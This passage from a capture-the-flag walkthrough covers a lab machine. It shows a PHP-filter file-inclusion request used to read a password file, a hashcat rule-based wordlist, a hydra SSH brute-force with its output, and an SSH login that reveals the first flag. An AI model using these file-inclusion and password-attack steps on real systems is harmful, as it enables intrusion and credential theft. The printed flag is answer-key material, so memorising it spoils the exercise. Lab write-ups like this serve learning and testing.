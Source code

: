 - Then I checked that `.reminder` file and found a password.

  ```
  http://10.10.34.14/index.php?page=php://filter/convert.base64-encode/resource=/home/blue/.reminder

  c3VwM3JfcEBzJHcwcmQhCg==
  
  $ echo 'c3VwM3JfcEBzJHcwcmQhCg==' | base64 -d
  sup3r_p@s$w0rd!
  ```

- So here, I started brute forcing like a maniac with multiple wordlists and still got nothing. Then I used the same commands that `blue` did and finally found credentials for SSH.

  ```
  $ echo 'sup3r_p@s$w0rd!' > password.txt
  
  $ hashcat --stdout password.txt -r /usr/share/hashcat/rules/best64.rule > passlist.txt
  
  $ wc -l passlist.txt                          
  77 passlist.txt
  
  $ hydra -l blue -P passlist.txt 10.10.34.14 ssh
  Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
  
  Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-06-07 12:15:48
  [WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
  [DATA] max 16 tasks per 1 server, overall 16 tasks, 77 login tries (l:1/p:77), ~5 tries per task
  [DATA] attacking ssh://10.10.34.14:22/
  [22][ssh] host: 10.10.34.14   login: blue   password: sup3r_p@s$w0rd!9
  1 of 1 target successfully completed, 1 valid password found
  [WARNING] Writing restore file because 3 final worker threads did not complete until end.
  [ERROR] 3 targets did not resolve or could not be connected
  [ERROR] 0 target did not complete
  Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-06-07 12:15:52
  ```

- Now login with SSH and let's look for some flags.

---

## 🧍 User Privilege Escalation

- First flag is already there.

  ```
  ssh blue@10.10.34.14
  blue@10.10.34.14's password: 
  Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-124-generic x86_64)
  [SNIP!]
  blue@red:~$ whoami
  blue
  blue@red:~$ id
  uid=1000(blue) gid=1000(blue) groups=1000(blue)
  
  blue@red:~$ cat flag1
  THM{Is_thAt_all_y0u_can_d0_blU3?}
  ```
  